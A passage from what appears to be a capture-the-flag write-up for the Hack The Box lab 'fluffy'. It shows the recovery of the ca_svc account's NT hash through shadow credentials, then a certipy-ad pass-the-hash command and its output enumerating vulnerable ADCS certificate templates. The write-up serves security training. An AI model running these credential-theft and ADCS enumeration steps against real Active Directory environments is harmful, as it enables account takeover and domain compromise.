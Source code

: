 ```bash
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092a******fc98c8
```
{: .nolineno }

**Extracted <b><span style="color:rgb(219, 0, 0)">ca_svc</span></b>
 Hash:** `ca0f4f9e9eb8a092a******fc98c8`

**Step 2: ADCS Vulnerability Assessment**
```bash
certipy-ad find -vulnerable -u 'ca_svc@fluffy.htb' -hashes ca0f4f9e9eb8a092a******fc98c8 -stdout -dc-ip 10.10.11.69
```
{: .nolineno }

**Results:**
```bash
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 14 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'fluffy-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'fluffy-DC01-CA'
[*] Checking web enrollment for CA 'fluffy-DC01-CA' @ 'DC01.fluffy.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3670C4A715B864BB497F7CD72119B6F5
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:11:16+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
```